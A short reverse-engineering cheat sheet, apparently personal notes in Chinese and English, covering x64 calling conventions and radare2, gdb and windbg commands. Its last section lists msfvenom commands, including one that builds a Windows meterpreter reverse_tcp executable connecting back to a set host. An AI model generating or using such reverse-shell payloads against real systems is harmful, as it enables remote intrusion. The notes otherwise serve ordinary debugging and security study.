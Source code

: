

# 调用规约

- Linux x64：
  * TLDR: rdi, rsi, rdx, rcx, r8, r9
  * User-level applications use as integer registers for passing the sequence %rdi, %rsi, %rdx, %rcx, %r8 and %r9. The kernel interface uses %rdi, %rsi, %rdx, %r10, %r8 and %r9. [link](https://stackoverflow.com/questions/2535989/what-are-the-calling-conventions-for-unix-linux-system-calls-and-user-space-f)

- Windows x64:
  * rcx, rdx, r8, r9, then stack
  * https://docs.microsoft.com/zh-cn/cpp/build/x64-calling-convention?view=vs-2019

```c++
func1(int a, int b, int c, int d, int e, int f);
// a in RCX, b in RDX, c in R8, d in R9, f then e pushed on stack
```
- Windows x86:
  - esp+4, esp+8

# r2 (radare2)

- `aaaa` 分析
- `afl` 列出函数
  * `afl~main` 列出包含 main 的函数
- `s main` 切换(seek)当前地址为 main
- `pdf` 打印当前的汇编
- 任意命令加 `?` 提供 help 信息，比如 `pd?`


# gdb

- r 运行，run
- c 继续，continue
- info reg 查看寄存器
- br *main 在main函数下断点
- br src/ss.c:123 在文件 ss.c:123 处下断点
- del 1 删除断点1
- diable 1 禁用断点1
- enable 1 启用断点1
- info br 查看断点
- x/4gx 0xdeadbeef 检查内存
  * x/4wx 控制每行的列数
  * x/2wx $rax 
- x/10i $pc 打印当前汇编
  * x/10i $rip rip/eip/pc都可以
  * x/-10i $rip 可以倒着来
- n(next) 源码级别step over
- s(step) 源码级别step in
- si(stepi) 汇编级别step in
- ni(nexti) 汇编级别step over
- starti 开始时断下（找不到入口/entry时）


* [gdb和lldb的对比](https://lldb.llvm.org/use/map.html)
* [gdb online docs](https://sourceware.org/gdb/onlinedocs/gdb/)


# windbg
- `sxe ld:xx.dll` dll加载时断下
- `* blabla` 注释
- `u $exentry` 查看入口/entry
- `x ntdll!D*` 查看符号
- `p` step over
- `t` (trace) step into


## more to learn
- https://medium.com/@yardenshafir2/windbg-the-fun-way-part-1-2e4978791f9b new way
- https://blogs.keysight.com/blogs/tech/nwvs.entry.html/2020/07/27/debugging_malwarewi-hk5u.html log
- https://github.com/hugsy/defcon_27_windbg_workshop/blob/master/windbg_cheatsheet.md must memorize


# msf

shellcode

```sh
msfvenom -p windows/x64/exec CMD=calc.exe   -a x64 --platform win -f raw -o calc64.raw

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.11 LPORT=1111 -f exe > shell.exe

# 常用payload
payload/windows/x64/meterpreter_bind_tcp

```

